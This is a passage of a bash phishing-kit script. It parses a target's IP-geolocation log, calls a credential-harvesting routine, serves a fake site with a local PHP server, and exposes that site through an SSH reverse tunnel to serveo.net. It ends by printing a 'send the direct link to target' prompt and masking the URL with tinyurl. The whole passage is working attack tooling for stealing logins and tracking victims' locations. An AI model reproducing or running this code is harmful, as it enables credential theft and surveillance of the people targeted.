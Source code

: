 country=$(grep -o 'Country:.*' iptracker.log | cut -d ">" -f3 | cut -d "&" -f1)
if [[ $country != "" ]]; then
printf "\e[1;92m[*] IP Country:\e[0m\e[1;77m %s\e[0m\n" $country
fi
##

state=$(grep -o "tracking lessimpt.*" iptracker.log | cut -d "<" -f1 | cut -d ">" -f2)
if [[ $state != "" ]]; then
printf "\e[1;92m[*] State:\e[0m\e[1;77m %s\e[0m\n" $state
fi
##
city=$(grep -o "City Location:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)

if [[ $city != "" ]]; then
printf "\e[1;92m[*] City Location:\e[0m\e[1;77m %s\e[0m\n" $city
fi
##

isp=$(grep -o "ISP:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)
if [[ $isp != "" ]]; then
printf "\e[1;92m[*] ISP:\e[0m\e[1;77m %s\e[0m\n" $isp
fi
##

as_number=$(grep -o "AS Number:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)
if [[ $as_number != "" ]]; then
printf "\e[1;92m[*] AS Number:\e[0m\e[1;77m %s\e[0m\n" $as_number
fi
##

ip_speed=$(grep -o "IP Address Speed:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)
if [[ $ip_speed != "" ]]; then
printf "\e[1;92m[*] IP Address Speed:\e[0m\e[1;77m %s\e[0m\n" $ip_speed
fi
##
ip_currency=$(grep -o "IP Currency:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)

if [[ $ip_currency != "" ]]; then
printf "\e[1;92m[*] IP Currency:\e[0m\e[1;77m %s\e[0m\n" $ip_currency
fi
##
printf "\n"
rm -rf iptracker.log

getcredentials
}

##
serverx() {
printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
cd sites/$server && php -S 127.0.0.1:$port > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Starting server...\e[0m\n"
command -v ssh > /dev/null 2>&1 || { echo >&2 "I require SSH but it's not installed. Install it. Aborting."; exit 1; }
if [[ -e sendlink ]]; then
rm -rf sendlink
fi
$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:'$port' serveo.net 2> /dev/null > sendlink ' &
printf "\n"
sleep 10 # &
send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
printf "\n"
printf '\n\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Send the direct link to target:\e[0m\e[1;77m %s \n' $send_link
send_ip=$(curl -s http://tinyurl.com/api-create.php?url=$send_link | head -n1)